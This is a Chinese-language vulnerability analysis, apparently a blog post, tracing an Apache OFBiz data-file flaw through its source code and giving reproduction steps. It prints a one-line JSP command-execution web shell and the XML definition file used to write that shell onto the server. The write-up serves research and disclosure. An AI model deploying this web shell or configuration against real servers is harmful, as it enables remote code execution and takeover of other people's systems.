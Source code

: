 ![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBX9NPdQVSiaCbQFTPByxZJw6G6whZGKtAE1Eywb5nc2PT4Ppcqdy3ibGQA/640?wx_fmt=png&from=appmsg "")  
  
  
由注释可以知道definitionUrl需要是一个xml文件，xml文件的格式可参照https://cwiki.apache.org/confluence/display/OFBIZ/OFBiz's+Data+File+Tools，跟进getModelDataFileReader。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXEJ53OOM3x0UZB7ty26IkTxqQzoTb3gIibcld6KPicl3lQmZHa1gfAdzg/640?wx_fmt=png&from=appmsg "")  
  
  
ModelDataFileReader会读取xml文件：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXDT6dnly8NYAOibA8uB1ehVRrysekoxmhbA7zMCN0du0gMibIKIQurS4A/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXbTD3EhatEKiaNq6PaJjwS1w1MDO7rEMpiaSK8CA0mu371a4Zr1HATbaA/640?wx_fmt=png&from=appmsg "")  
  
  
然后读取fileUrl的内容，fileUrl由DATAFILE_LOCATION控制。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXbHe2bp36KpMP2hFdWWTQXHI46IMK0Q9Zibz16vHdPt3L4v6LNicQ1q7g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXJWfRhN6x95a0yIAtu6Hibt88uFcGmV12YND5ZJzwCLelOHvk3l5iaICw/640?wx_fmt=png&from=appmsg "")  
  
  
读到的数据流会通过setupStream进行处理。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXXETxqOe2Dia7micKc8lyCcJEpc3wCq9TENgMo2iaLTqZWlsNPvGLJ8ia8Q/640?wx_fmt=png&from=appmsg "")  
  
  
  
读取的长度是根据前面读到的xml文档的配置读的，所以配置文件中的position设置为0，field的length为要去的文件内容的长度，比如写入如下木马，则length=60。  
  
  
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>  
  
读完之后会根据xml中field的name来存储成键值对，需要name的值和DEFINITION_NAME对应才可以读到，所以xml中reacord的name设置为"jspshell"。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXzcFQ5KBVXibiaM3ibG3AQHsw0n7gicNTql05cHiaS25icFmSwic7gSwjYowxw/640?wx_fmt=png&from=appmsg "")  
  
  
最后为了让dataFileUrl和definitionUrl由我们控制，需要令DATAFILE_IS_URL=true，DEFINITION_IS_URL=true  
  
。  
  
  
**（三）漏洞复现结果**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
最终复现如下：  
- rceschema.xml  
  
```
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <data-file name="jspshell" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
            <record name="jspshell" limit="many">
                <field name="jspshell" type="String" length="60" position="0"></field>
            </record>
        </data-file>
</data-files>

```  
  